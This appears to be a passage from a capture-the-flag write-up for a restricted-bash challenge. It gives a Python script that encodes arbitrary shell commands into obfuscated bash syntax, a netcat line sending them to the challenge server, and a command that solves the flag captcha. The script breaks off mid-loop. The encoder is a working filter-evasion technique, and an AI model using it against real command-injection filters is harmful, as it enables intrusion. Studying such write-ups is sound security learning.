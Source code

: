 ```
Obviously this was all scripted with one (rather quick-and-ditry) python script, and was not hand-crafted like above.

Simply use the conversion script as follows:

./convert.py 'ls -la' | nc 35.198.107.77 1337

(If you don’t supply an argument to the conversion script, it will use the flag-catching command as a default.)

The script is embedded in the end.
Catching the flag

Once you have a ‘shell’ of sorts, you need to run the get_flag binary, which spits out a (random) calculation:
```
Please solve this little captcha:
530892629 + 3254451000 + 4211578791 + 2425633949 + 368428465
10790984834 != 0 :(
```
You just need to pipe back in, to the same process, the result.

We used the following command for the flag catching:
```
bash -c 'expr $(grep + /tmp/out)' | /get_flag > /tmp/out; cat /tmp/out
```
This runs the get_flag binary, saving the output to file in /tmp, and pipes back in the result.


```
#!/usr/bin/env python

# write up:
# https://medium.com/@orik_/34c3-ctf-minbashmaxfun-writeup-4470b596df60

import sys

a = "bash -c 'expr $(grep + /tmp/out)' | /get_flag > /tmp/out; cat /tmp/out"
if len(sys.argv) == 2:
    a = sys.argv[1]

out = r"${!#}<<<{"

for c in "bash -c ":
    if c == ' ':
        out += ','
        continue
    out += r"\$\'\\"
    out += r"$(($((${##}<<${##}))#"
    for binchar in bin(int(oct(ord(c))[1:]))[2:]:
        if binchar == '1':
            out += r"${##}"
        else:
            out += r"$#"
    out += r"))"
    out += r"\'"
